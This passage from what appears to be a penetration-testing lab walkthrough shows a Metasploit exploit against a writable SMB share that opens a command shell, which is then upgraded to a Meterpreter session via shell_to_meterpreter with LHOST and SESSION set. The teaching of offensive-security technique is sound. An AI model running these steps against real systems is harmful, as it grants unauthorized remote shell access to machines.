 SMB_FOLDER: The directory to use within the writeable SMB share. 

In our case, we haven't enumerated any information regarding the SMB folders or the share name that contains the writable directory.  

Run the `check` command, which will check if the target is vulnerable.

```
check
info
run
```

That is going to execute the exploit and is going to open up a command shell session. 

```
ls
pwd # Print out our current working directory on the Linux target system.
```

Put this in the background using the keyboard combination `Ctrl+z`.

List out our sessions. We currently have a command shell session on the target.

```
sessions
```

We want to upgrade this to a meterpreter session because a meterpreter session is much better in regards to access on the target system.

Search for a post-exploitation module called `shell_to_meterpreter`.

```
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
show options
```

In this case, we need to set the LHOST option, that is going to be the IP address of the host that will receive the connection from the payload. And then the `LPORT` is going to be the port for the payload to connect to. And then we need to set up the session id, which in this case is one because that's the command session that we want to upgrade.

LHOST: In this case, we can utilize the interface name to set the IP address automatically.

```
set LHOST eth1
set SESSION 1
run
```

That's going to upgrade our command shell session into a meterpreter session. 

List out our sessions. We have a meterpreter session on the target system.

```
sessions 2
```

We can type in the `sysinfo` command to get an idea of what the system is running in regards to the distribution release version as well as the kernel version.
